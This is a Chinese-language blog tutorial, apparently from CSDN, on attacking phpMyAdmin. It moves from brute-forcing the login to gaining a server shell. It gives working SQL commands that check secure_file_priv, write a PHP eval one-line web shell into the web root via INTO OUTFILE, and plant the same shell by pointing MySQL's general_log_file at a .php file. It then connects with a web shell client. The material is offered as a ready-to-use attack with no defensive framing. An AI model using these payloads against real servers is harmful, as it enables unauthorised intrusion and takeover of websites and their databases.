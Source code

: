 **目录**

[phpmyadmin](#t0 "phpmyadmin")

[phpmyadmin后台的爆破](#t1 "phpmyadmin后台的爆破")

[phpmyadmin后台GetShell](#t2 "phpmyadmin后台GetShell")

[into outfile写木马](#t3 "into outfile写木马")

[利用日志文件Getshell](#t4 "利用日志文件Getshell")

* * *

phpmyadmin
==========

[phpMyAdmin](https://so.csdn.net/so/search?q=phpMyAdmin&spm=1001.2101.3001.7020) 是一个以PHP为基础，以Web-Base方式架构在网站主机上的MySQL的数据库管理工具，让管理者可用Web接口管理MySQL数据库。借由此Web接口可以成为一个简易方式输入繁杂SQL语法的较佳途径，尤其要处理大量资料的汇入及汇出更为方便。

phpmyadmin后台的爆破
---------------

当我们发现目标网站的phpmyadmin后台后，首先想到的肯定就是能不能爆破登录处进入后台。一旦进入了后台，意味着就控制了整个数据库了。

![](https://img-blog.csdnimg.cn/20191209173331613.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们这里直接使用phpmyadmin暴力破解工具，然后指定用户名和密码字典即可。

![](https://img-blog.csdnimg.cn/20191209173712520.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

phpmyadmin后台GetShell
--------------------

当我们进入了 phpmyadmin 后台后，如何能够获取服务器的权限呢？

以下方法的前提都是需要知道网站的绝对路径。

### into outfile写木马

首先，我们得查看当前是否有写文件的权限，我们需要查看变量 secure\_file\_priv 的值，只有当secure\_file\_priv没有具体值，我们才可以写文件。如果secure\_file\_priv变量有具体的值或者为NULL时，我们则写入不了文件。执行命令：

```
show global variables like 'secure%';
```


如下， secure\_file\_priv的值为空，说明可以写入文件。

![](https://img-blog.csdnimg.cn/20191209175639534.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是，我们现在需要知道网站的绝对路径，才能执行以下命令将[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)写入到网站目录下。

```
select '<?php @eval_r($_POST[cmd])?>' INTO OUTFILE '网站绝对路径/hack.php'
```


可以尝试使用 select @@basedir 来查看MySQL数据库的路径。

![](https://img-blog.csdnimg.cn/20191209180015130.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后尝试执行以下命令

```
select '<?php @eval_r($_POST[cmd])?>' INTO OUTFILE 'C:\phpstudy\phptutorial\www\hack.php'
```


![](https://img-blog.csdnimg.cn/20191209180413860.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后用菜刀连接即可

### 利用日志文件Getshell

MySQL 5.0版本以上会创建日志文件，我们通过修改日志的全局变量，也可以Getshell。先来看MySQL的两个全局变量：general\_log 和 general\_log file。

*   general log 指的是日志保存状态，ON代表开启 OFF代表关闭；  
     
*   general log file 指的是日志的保存路径。

使用以下命令查看这两个变量的值

```
show variables like '%general%'
```


![](https://img-blog.csdnimg.cn/20191209181126112.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

可以看到，general\_log的值是OFF的，我们现在执行命令将它打开

```
set global general_log='on'
```


![](https://img-blog.csdnimg.cn/20191209181253732.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

当general\_log的值为ON时，所执行的sql语句都会出现在 `WIN7.log` 文件**。**

`现在我们设置`general\_log\_file的值，将其设置为网站根目录下。那么我们执行的SQL语句就会在该文件中。

```
set global general_log_file="C:/phpStudy/PHPTutorial/WWW/hack.php"
```


![](https://img-blog.csdnimg.cn/20191209181630591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

现在我们执行一句话木马的SQL语句，这一句话木马会在日志文件中

```
SELECT '<?php eval($_POST["cmd"]);?>'
```


![](https://img-blog.csdnimg.cn/20191209181825634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20191209182251602.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后用菜刀连接即可。

注：以上设置 general\_log 和 general\_log\_file 只对当前环境窗口有效，也就是以上几条命令须在同一窗口执行。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
